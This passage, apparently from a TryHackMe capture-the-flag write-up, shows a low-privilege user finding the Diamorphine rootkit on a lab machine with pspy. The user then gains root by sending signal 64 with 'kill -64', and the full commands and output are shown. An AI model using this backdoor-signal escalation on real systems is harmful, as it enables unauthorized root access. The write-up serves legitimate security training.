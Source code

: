 **In `pspy`, I found that there is a weird binary is running:**
```
webadmin-lowpriv@www-infinity:~$ /tmp/pspy
[...]
2022/10/02 06:59:59 CMD: UID=1001 PID=1918   | /usr/share/diamorphine_secret/svcgh0st

webadmin-lowpriv@www-infinity:~$ ls -lah /usr/share/diamorphine_secret/svcgh0st
-rwxr-xr-x 1 webadmin-lowpriv webadmin-lowpriv 171K Jul 26 21:39 /usr/share/diamorphine_secret/svcgh0st

webadmin-lowpriv@www-infinity:~$ file /usr/share/diamorphine_secret/svcgh0st
/usr/share/diamorphine_secret/svcgh0st: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d677fc235a38037ad571588beee071b1f673d321, for GNU/Linux 3.2.0, stripped
```

**I also discovered some weird files in `/dev/shm`:**
```
webadmin-lowpriv@www-infinity:~$ ls -lah /dev/shm
total 68K
drwxrwxrwt  2 root root  280 Oct  2 03:29 .
drwxr-xr-x 18 root root 3.9K Oct  2 03:30 ..
-rw-r--r--  1 root root  11K Oct  2 03:29 diamorphine.c
-rw-r--r--  1 root root  642 Oct  2 03:29 diamorphine.h
-rw-r--r--  1 root root  12K Oct  2 03:29 diamorphine.ko
-rw-r--r--  1 root root   29 Oct  2 03:29 diamorphine.mod
-rw-r--r--  1 root root 1.2K Oct  2 03:29 diamorphine.mod.c
-rw-r--r--  1 root root 4.0K Oct  2 03:29 diamorphine.mod.o
-rw-r--r--  1 root root 9.1K Oct  2 03:29 diamorphine.o
-rw-r--r--  1 root root 1.5K Oct  2 03:29 LICENSE.txt
-rw-r--r--  1 root root  190 Oct  2 03:29 Makefile
-rw-r--r--  1 root root   29 Oct  2 03:29 modules.order
-rw-r--r--  1 root root    0 Oct  2 03:29 Module.symvers
-rw-r--r--  1 root root 1.7K Oct  2 03:29 README.md
```

After some googling, I found that binary is a **[rootkit](https://github.com/m0nad/Diamorphine) from a GitHub repository** :

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Takedown/images/a1.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Takedown/images/a2.png)

```
Sending a signal 64(to any pid) makes the given user become root;
```

**Hmm... So, that means I can escalate to root by sending a signal 64 to any pid via `kill`??**
```
webadmin-lowpriv@www-infinity:~$ kill -64 1337
webadmin-lowpriv@www-infinity:~$ whoami;id
root
uid=0(root) gid=0(root) groups=0(root),1001(webadmin-lowpriv)
```
